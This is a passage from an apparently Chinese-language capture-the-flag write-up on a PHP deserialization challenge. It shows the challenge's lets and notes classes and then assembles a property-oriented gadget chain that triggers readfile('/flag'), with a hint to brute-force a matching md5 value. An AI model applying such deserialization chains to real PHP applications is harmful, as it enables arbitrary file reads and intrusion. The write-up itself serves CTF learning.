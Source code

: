 5.令 $ed_xinhu 为 lets 类来衔接 lets 类中的魔术方法__invoke()：

```php
class lets{
    public static $yolbby = "nonono";
    public $mak4r1;
    public $ech0;
    public $rocket;
    public $errmis;
    function __toString(){
        $humb1e = md5($this -> mak4r1);
        $k0rian = substr($humb1e,-4,-1);
        $this -> rocket -> dbg = $k0rian;
        return "O.o?";
    }
    function __set($a, $b){
        self::$yolbby = $b;
        $int_barbituric = $this -> ech0 -> gtg;

    }

    function __invoke(){
        new notes($this -> errmis);
        //创建参数为$errmis的notes类新对象，自动调用notes类魔术方法__construct()
    }

}
```

6.令 $errmis 为'/flag'：

```php
class notes{
    function __construct($filepath){
        readfile($filepath);
        //参数传递给$filepath即执行readfile('/flag')
    }
}
```

7.综上构造链子

```php
$ray = new _0rays();
$ray->jbn = 'phpinfo';
$lets=new lets();
$lets->mak4r1='asc';
//$mak4r1-->用md5加密-->取倒数2~4位-->$yolbby
//写个python脚本枚举出一个md5加密后密文满足'666'条件的字符串即可
$new_lets1=new lets();
$go = new go();
$go->ed_xinhu=new lets();
$go->ed_xinhu->errmis='/flag';
$new_lets1->ech0=$go;
$lets->rocket=$new_lets1;
$ray->pankas=$lets;
```
